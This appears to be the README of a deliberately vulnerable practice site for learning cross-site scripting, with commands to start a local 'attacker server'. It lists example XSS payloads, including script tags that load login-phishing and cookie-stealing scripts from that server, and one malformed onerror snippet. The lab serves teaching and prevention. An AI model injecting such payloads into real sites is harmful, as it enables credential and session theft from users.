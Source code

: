 # simple XSS vulnerable site

## To run
client server
```
php -S localhost:8000
```

attacker server
```
php -S 127.0.0.1:6969
```

## Covered situations
- [x] xss on comments
- [x] opens a loging modal and send user input to attacker server
- [x] sends cookies to attacker server
- [x] url xss
- [x] preventions

## XSS examples
- `<script src="http://127.0.0.1:6969/login.js"></script>`
- `<script src="http://127.0.0.1:6969/cookies.js"></script>`
- `<img onerror="document.body.insertBefore"></script>`
- `<script></script>`

